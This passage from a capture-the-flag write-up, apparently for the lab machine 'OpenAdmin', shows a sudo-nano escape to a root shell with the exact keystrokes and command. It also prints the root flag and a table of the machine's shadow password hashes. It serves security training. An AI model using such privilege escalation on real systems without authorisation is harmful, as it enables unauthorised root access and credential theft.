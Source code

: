 Looking at `sudo -l` we have an opening with `nano` -> GTFO :)

```sh
#~/Git/gtfo/gtfo -b nano
   _  _           _    __
 _| || |_        | |  / _|
|_  __  _|   __ _| |_| |_ ___
 _| || |_   / _` | __|  _/ _ \
|_  __  _| | (_| | |_| || (_) |
  |_||_|    \__, |\__|_| \___/
             __/ |
            |___/

[...]

Code:	sudo nano
	^R^X
	reset; sh 1>&0 2>&0

Type:	sudo

```

There is a way in with `nano`. So let's get in

```sh
joanna@openadmin:~$ sudo /bin/nano /opt/priv
```

Then we type `ctrl+r` and `ctrl+x` and we can run the command in `nano`: `reset; sh 1>&0 2>&0`. We see a small `#` at the bottom. We can type `clear` to get a clean terminal.

and we got root !

```sh
# bash
root@openadmin:~# id
uid=0(root) gid=0(root) groups=0(root)
root@openadmin:~# cd /root
root@openadmin:/root# cat root.txt
2f907ed450b361b2c2bf4e8795d5b561
```


**Guanicoe**

| name | hash |
| ------------- |:-------------:| -----:|
| root | $6$BGk6CBPE$FoDCUgY.1pnYDkqDr4.yNm4jQqnnG7side9P6ApdQWWqLr6t1DHq/iXuNF7F0fkivSYXajUp/bK2cw/D/3ubU/:18222:0:99999:7::: |
| jimmy  | $6$XnCB2K/6$QALmpgLWhDwUjcNldzgtafb6Tt1dT.uyIfxdhDYOVGdlNgIyDX89hz29P.aDQM9OBSSsI2dJGUYYTmQtdb2zw.:18222:0:99999:7::: |
| joanna | $6$gmFfLksM$XJl08bIFRUki/Lecq8RKFzFFvleGn9CjiqrQxU4n/l6JZe/FSRbe0I/W3L86yWibCJejfrMzgH3HvUezxhCWI0:18222:0:99999:7::: |
